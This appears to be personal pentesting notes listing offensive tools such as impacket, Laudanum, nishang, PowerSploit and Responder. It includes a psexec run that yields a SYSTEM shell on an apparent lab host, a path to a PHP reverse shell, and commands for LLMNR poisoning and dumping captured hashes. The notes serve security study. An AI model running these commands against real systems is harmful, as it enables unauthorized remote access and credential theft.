 # Misc Pentesting Tools
[TOC]
###### tags: `Security` `Tools`

# collection
## Misc
### [impacket](https://github.com/SecureAuthCorp/impacket)
Impacket is a collection of Python classes for working with network protocols.

#### impacket-psexec
Get `system` shell
```
python3 psexec.py Administrator@bastion.htb 
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on bastion.htb.....
[*] Found writable share ADMIN$
[*] Uploading file hoQpxzMA.exe
[*] Opening SVCManager on bastion.htb.....
[*] Creating service qdbo on bastion.htb.....
[*] Starting service qdbo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### [seclists](https://github.com/danielmiessler/SecLists)
List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more
```
/usr/share/seclists
Discovery  IOCs           Passwords         Payloads   Usernames
Fuzzing    Miscellaneous  Pattern-Matching  README.md  Web-Shells
```

### [Laudanum](https://sourceforge.net/projects/laudanum/)
Laudanum is a collection of injectable files
```
/usr/share/laudanum
asp  aspx  cfm  helpers  jsp  php  README  wordpress
```
* php - reverse shell `/usr/share/laudanum/php/php-reverse-shell.php`

## Microsoft
### nishang
> Offensive PowerShell for red team, penetration testing and offensive security.
[GitHub](https://github.com/samratashok/nishang)
```
/usr/share/nishang/
ActiveDirectory  Bypass      Execution  MITM          powerpreter  Shells
Antak-WebShell   Client      Gather     nishang.psm1  Prasadhak    Utility
Backdoors        Escalation  Misc       Pivot         Scan
```
* [reverse shell](https://hackmd.io/@WildfootW/H1Po1QzSr?both#powershell)

### PowerSploit
> PowerSploit - A PowerShell Post-Exploitation Framework
```
/usr/share/windows-resources/powersploit * this version is too old
AntivirusBypass  Mayhem            PowerSploit.psm1  Recon
CodeExecution    Persistence       Privesc           ScriptModification
Exfiltration     PowerSploit.psd1  README.md         Tests
```

# Others
### Responder/MultiRelay
[GitHub - lgandx](https://github.com/lgandx/Responder)
Responder an LLMNR, NBT-NS and MDNS poisoner. It will answer to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: http://support.microsoft.com/kb/163409).
```
responder -I tun0
```
Get Full hashes in Responder
```
locate Responder.db
sqlite3 /usr/share/responder/Responder.db
sqlite> select * from responder;
```
